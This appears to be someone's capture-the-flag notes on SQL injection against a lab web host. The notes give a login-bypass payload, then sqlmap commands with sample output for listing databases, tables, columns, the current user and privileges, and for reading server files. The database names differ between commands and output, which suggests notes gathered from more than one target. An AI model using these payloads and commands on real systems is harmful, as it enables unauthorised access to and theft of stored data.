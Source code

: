 ## database 
good article for sqlmap https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/
## actually it was sql injection
```bash
admin'  or 1=1 or ''='
```
## show databases
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --dbs --batch

или вот так:

sqlmap -u 'http://127.0.0.1:8082/?id=0.0.1' --method GET --dbs --dump --level 5 --risk 3

```

```bash
available databases [2]:
[*] information_schema
[*] writer

```
## show tables of particular database
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --tables -D safecosmetics
```

```bash
Database: writer
[3 tables]
+---------+
| site    |
| stories |
| users   |
	+---------+

```
## show columns of table
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --columns -D safecosmetics -T users
```

## show current user
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch --current-user
```

## privilegies
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST  --batch  --privileges
```

```bash
database management system users privileges:
[*] %admin% [1]:
    privilege: FILE

```
## file read
```bash
$ sqlmap -u http://10.10.11.101/administrative --data="uname=root&password=root" --method POST --batch --file-read /
```
